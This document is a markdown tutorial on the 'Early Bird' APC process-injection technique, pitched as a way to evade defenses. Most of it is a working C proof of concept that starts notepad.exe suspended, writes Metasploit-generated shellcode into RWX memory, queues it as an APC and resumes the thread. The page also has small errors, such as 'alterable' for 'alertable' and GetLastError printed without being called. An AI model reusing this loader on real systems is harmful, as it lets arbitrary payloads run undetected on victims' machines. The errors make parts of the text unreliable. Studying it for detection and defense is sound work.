

# 🐦 APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

> "The early bird gets the worm... :joy:"

#### What is an APC?

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

First thing's first, you need to understand what APC is. <mark style="color:yellow;">APC, or Acynchronous Procedure Call</mark>, <mark style="color:yellow;">is a</mark> <mark style="color:yellow;">function that will execute asynchronously within a particular thread</mark>.

#### How does the attack work?

<mark style="color:yellow;">This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread</mark>.&#x20;

A thread will then enter an <mark style="color:yellow;">alterable state</mark> once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a <mark style="color:yellow;">suspended</mark> process
2. <mark style="color:yellow;">Allocate and write</mark> malicious code into that process
3. <mark style="color:yellow;">Queue an APC</mark> to that process
4. <mark style="color:yellow;">Resume</mark> the main thread to execute the APC

## Physical Notes

<figure><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

  
    unsigned char buf[] = 
                           "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";


    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, (ULONG_PTR)0);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References


